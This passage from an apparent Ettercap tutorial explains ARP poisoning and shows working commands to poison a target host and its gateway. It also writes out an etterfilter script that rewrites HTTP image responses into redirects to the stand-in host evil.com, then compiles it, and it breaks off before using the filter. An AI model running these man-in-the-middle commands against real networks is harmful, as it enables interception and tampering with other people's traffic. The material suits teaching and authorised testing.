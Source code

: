 For beginners, the graphical interface provides an easier entry point:

```bash
# Start Ettercap in graphical mode
ettercap -G
```

### ARP Poisoning

ARP poisoning (or ARP spoofing) is the fundamental technique behind many MITM attacks. It involves sending falsified ARP messages to associate your MAC address with the IP address of another host (typically the default gateway):

```bash
# Simple ARP poisoning between target and gateway
ettercap -T -q -i eth0 -M arp:remote /192.168.1.5/ /192.168.1.1/

# ARP poisoning with packet filtering
ettercap -T -q -i eth0 -M arp:remote /192.168.1.5/ /192.168.1.1/ -F filter.ef
```

ARP poisoning works because:
1. ARP has no authentication mechanism
2. Most systems accept unsolicited ARP replies ("gratuitous ARP")
3. New ARP information overwrites existing cache entries

### Custom Filters

One of Ettercap's most powerful features is its filtering engine, which allows you to modify packets in transit. Filters are written in a C-like language:

1. Create a filter file (e.g., `replace_image.filter`):

```
if (ip.proto == TCP && tcp.dst == 80) {
    if (search(DATA.data, "GET ")) {
        replace("Accept-Encoding: gzip", "Accept-Encoding: ");
        msg("Modified request headers\n");
    }
}

if (ip.proto == TCP && tcp.src == 80) {
    if (search(DATA.data, "Content-Type: image")) {
        replace("HTTP/1.1 200 OK", "HTTP/1.1 302 Found\r\nLocation: http://evil.com/fake.jpg");
        msg("Replaced image response\n");
    }
}
```

2. Compile the filter:

```bash
etterfilter replace_image.filter -o replace_image.ef
```

3. Use the filter with Ettercap:

